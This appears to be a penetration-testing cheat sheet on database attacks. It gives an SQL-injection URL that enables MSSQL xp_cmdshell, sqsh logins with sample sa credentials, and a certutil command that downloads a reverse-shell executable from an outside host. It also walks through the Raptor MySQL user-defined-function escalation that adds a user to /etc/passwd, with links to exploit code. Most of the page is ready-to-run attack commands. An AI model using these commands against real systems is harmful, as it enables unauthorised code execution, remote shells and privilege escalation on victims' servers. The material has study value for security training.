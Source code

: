 #### xp_cmdshell Example in URL
Here, we can see how it is possible to recondigure MSSQL to run commands directly from the websites URL:
```
http://10.10.10.104/mvc/Product.aspx?ProductSubCategoryId=1; EXEC sp_configure 'show advanced options', 1; EXEC sp_configure 'xp_cmdshell', 1; reconfigure with override; exec master..xp_cmdshell 'ping -n 10 localhost'`
1; EXEC sp_configure 'show advanced options, 1; EXEC sp_configure
```

## Interacting with a database via a network:
In this example, we are connecting directly to an MSSQL server where we know the password for the root user. From here, we are setting permissions and functions, then running commands using the xp_cmdshell function available in MSSQL. [sqsh](https://manpages.ubuntu.com/manpages/kinetic/en/man1/sqsh.1.html) is a great tool for database interactions in MSSQL:
```
command execution in SQL Server:
sqsh
sqsh -U [user] -P [password] -S [ip]:[port] -D [database] 
sqsh -U [user] -P [password] -S [ip]
sqsh -S 10.11.1.31 -U sa -P poiuytrewq
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
```
At this point, we should be able to execute our commands. We can use certutil on windows to download and execute files directly on the operating system:
```
xp_cmdshell 'certutil -urlcache -split -f http://192.168.49.90/rshell.exe rshell.exe'
go
```

## Raptor MySQL Exploit:
Raptor is a known exploit where before version 4.1.14 you could load an arbitrary kernel moduile into the mysql process. with user defined fuinctions we can run commands on mysql if we have root access to the database within the context of the MySQL process. if the process is owned by root, we can run as that user. 

In the example we are using this to add a user to /etc/passwd with the credentials of oneequalsone : securitytraining
```
make password:
	md5 (/etc/passwd):
		openssl passwd [password]
	sha512 (/etc/shadow):
		mkpasswd -m sha-512 [password]

kali$ openssl passwd securitytraining
kali$ xd1aAlLUOvwKo

```
Resources to help you understand the attack:
```
blog: https://medium.com/r3d-buck3t/privilege-escalation-with-mysql-user-defined-functions-996ef7d5ceaf

https://github.com/1N3/PrivEsc/blob/master/mysql/raptor_udf2.c
https://www.exploit-db.com/exploits/1518
https://github.com/rapid7/metasploit-framework/blob/master/data/exploits/mysql/lib_mysqludf_sys_64.so
```

